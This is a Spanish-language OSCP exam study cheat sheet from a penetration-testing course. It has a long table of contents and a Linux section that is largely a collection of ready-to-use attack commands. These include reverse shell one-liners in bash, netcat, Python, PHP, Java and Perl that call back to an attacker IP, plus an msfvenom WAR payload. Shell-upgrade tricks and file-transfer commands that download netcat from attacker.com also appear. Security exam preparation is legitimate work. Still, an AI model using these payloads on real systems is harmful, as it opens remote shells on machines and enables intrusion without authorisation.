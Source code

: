 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [General](#General)
  - [Information Ghatering](#Information-Ghatering)
    - [Port Scanning](#Port-Scanning)
    - 
  - [Pentesting Web](#Pentesting-Web)
    - [Webshells](#Webshells)
    - [LFI](#LFI)
    - [LFI TO RCE](#LFI-TO-RCE)
    - [RFI](#RFI)
    - [Wordpress](#Wordpress)
      - [Encontrando plugins]
      - [xmlrpc goes wild]
    - [Shellshock](#Shellshock)
    - [JWT](#JWT)
      - [WEAK SECRET](#WEAK-SECRET)
      - [PUBLIC KEY](#PUBLIC-key)
    - [SQLi](#SQLI)
      - [Blind SQLI](#BLIND-sqli)
  - [Crackeando hashes]
    - [Hashcat](#Hashcat)
    - [John the Ripper](#John-the-Ripper)
    - [Aplicando Reglas (ver delivery)](#Aplicando-Reglas)
  - [Port Forwarding/ Port Tunneling](#Port-Forwarding)
    - [Chisel](#Chisel)
    - [Plink](#Plink)
    - [Ncat](#Ncat)
    - [SSH](#SSH)
    - [Metasploit](#Metasploit)
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
    - [Java](#Java)
    - [Perl](#Perl)
    - [War msfvenom (tomcat manager)](#War)
    - [Groovy (Jenkins console)](#Groovy-(Jenkins-Console))
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Privilege Escalation](#Privilege-Escalation) 
  - [Escapando de Docker](#Escapando-de-Docker)
    - [Forma 1 ver ready]
    - [Forma 2 ver feline]
    - [Forma 3 ver tnb]
    - [Forma 4 ver final de reddish]
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python_t)
      - [Python3](#Python3)
      - [Apache](#Apache)
      - [Php](#PHP_t)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat_t)
    - [/dev/tcp/](#Dev-tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
  - [Bypassing de restricciones al inyectar comandos](#Bypassing-de-restricciones-al-inyectar-comandos)
  - [Bypassing restricted shells (rbash , rzsh,etc)](#Bypassing-restricted-shells-(rbash,rzsh,etc))    
- [Windows](#Windows)
- [Privilege Escalation - Linux](https://github.com/JohanS11/OSCP-NOTES/blob/main/Linux%20Privilege%20Escalation.md)
- [Privilege Escalation - Windows](https://github.com/JohanS11/OSCP-NOTES/blob/main/Windows%20Privilege%20Escalation.md)
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
#### War
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
  ```
#### Java
  ```bash
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
#### Groovy (Jenkins Console)

  ```bash
  cmd = """ whoami """
  println cmd.execute().text
  ```
#### Perl
  ```bash
  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python_t
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP_t
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat_t
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### Dev tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source cat FileToTransfer > /dev/tcp/targetip/4444 
  
  ## Forma 2 
  source nc -nlvp 444 > nc 
  target cat > nc < /dev/tcp/targetip/4444
  
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
